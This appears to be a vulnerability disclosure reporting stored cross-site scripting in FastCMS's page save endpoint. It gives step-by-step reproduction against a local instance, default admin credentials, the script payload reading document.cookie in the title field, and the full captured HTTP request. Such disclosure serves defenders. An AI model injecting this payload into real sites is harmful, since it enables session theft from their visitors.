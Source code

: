 CMS:https://github.com/my-fastcms/fastcms/

Vulnerability http://127.0.0.1:8080/fastcms/api/admin/page/save

POST form-data parameter title=" " exists stored cross-site scripting

Copy Steps
1.Go to administrator login

http://127.0.0.1:8080/fastcms/

Default administrator access information username:admin password: 1

2.Click on "Page" and click on "New Page"
![295873542-05741a25-8139-4c89-bb98-101c97e4f93e](https://github.com/biantaibao/XSS/assets/131763503/16ed9fd1-b9ce-405a-9b79-b5488485c902)


3.Put Payload into the title parameter

Payload:<script>alert(document.cookie)</script>
![image](https://github.com/biantaibao/XSS/assets/131763503/5bbafc53-ae85-47f1-8481-3994fa3c35af)

4.Click on Save
Transmission packet
POST /fastcms/api/admin/page/save HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/plain, /
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiMSIsInVzZXJJZCI6MSwidXNlcm5hbWUiOiJhZG1pbiIsImV4cCI6MTcwNDk4MjgzNX0.BqRd5hHJ5rZQHfCwR1JwyaQT_iyFPyhbBIes1Paj-eg
ClientId: 5986012cabe54397a001bf61b4d88706
Content-Type: application/x-www-form-urlencoded
Content-Length: 305
Origin: http://127.0.0.1:8080
Connection: close
Referer: http://127.0.0.1/fastcms.html
Cookie: Hm_lvt_2f24154b3f87697d36a4e2a638b68aaa=1704782281; JSESSIONID=36080a69-5232-4088-85be-6074f45e49e2; Hm_lpvt_2f24154b3f87697d36a4e2a638b68aaa=1704782281; Hm_lvt_f8cddee34ca21f05373a9388cfdd798b=1704964823; Hm_lpvt_f8cddee34ca21f05373a9388cfdd798b=1704966995

id=3&createUserId=1&title=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&path=11&contentHtml=%3Cp%3E1%3C%2Fp%3E&outLink=&seoKeywords=1&seoDescription=1&summary=11&thumbnail=&style=&status=publish&suffix=&viewCount=0&commentEnable=false&created=&updated=&url=http%3A%2F%2F192.168.43.1%3A8080%2Fp%2F3

5.Payload will trigger when a user visits on http://127.0.0.1:8080/p/3
![image](https://github.com/biantaibao/XSS/assets/131763503/beb9c9c6-ca5c-46cb-818b-3103a0f4be33)


